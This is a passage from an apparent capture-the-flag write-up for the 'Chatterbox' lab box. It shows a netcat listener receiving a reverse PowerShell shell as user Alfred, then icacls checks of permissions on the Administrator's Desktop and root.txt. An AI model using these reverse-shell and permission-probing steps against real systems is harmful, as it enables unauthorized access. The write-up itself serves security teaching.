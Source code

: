     
    root@kali# nc -lnvp 8082
    listening on [any] 8082 ...
    connect to [10.10.14.159] from (UNKNOWN) [10.10.10.74] 49159
    Windows PowerShell running as user Alfred on CHATTERBOX
    Copyright (C) 2015 Microsoft Corporation. All rights reserved.
    
    PS C:\Windows\system32> whoami
    chatterbox\alfred
    

## Reading root.txt

I didn’t actually get an administrator/system shell on this host, as it wasn’t
necessary to read the root flag.

We Alfred, we can access the administrator’s desktop, but can’t read the file:

    
    
    c:\Users\Administrator\Desktop>dir
    dir
     Volume in drive C has no label.
     Volume Serial Number is 9034-6528
    
     Directory of c:\Users\Administrator\Desktop
    
    12/10/2017  07:50 PM    <DIR>          .
    12/10/2017  07:50 PM    <DIR>          ..
    12/10/2017  07:50 PM                32 root.txt
                   1 File(s)             32 bytes
                   2 Dir(s)  18,162,110,464 bytes free
    
    c:\Users\Administrator\Desktop>type root.txt
    Access is denied.
    

If we look at the directory for Desktop itself, Alfred actually has
permissions on it:

    
    
    C:\Users\Administrator>icacls Desktop
    icacls Desktop
    Desktop NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
            CHATTERBOX\Administrator:(I)(OI)(CI)(F)
            BUILTIN\Administrators:(I)(OI)(CI)(F)
            CHATTERBOX\Alfred:(I)(OI)(CI)(F)
    
    Successfully processed 1 files; Failed processing 0 files
    

We don’t have read access to the file now:

    
    
    C:\Users\Administrator\Desktop>icacls root.txt
    icacls root.txt
    root.txt CHATTERBOX\Administrator:(F)
    
    Successfully processed 1 files; Failed processing 0 files
    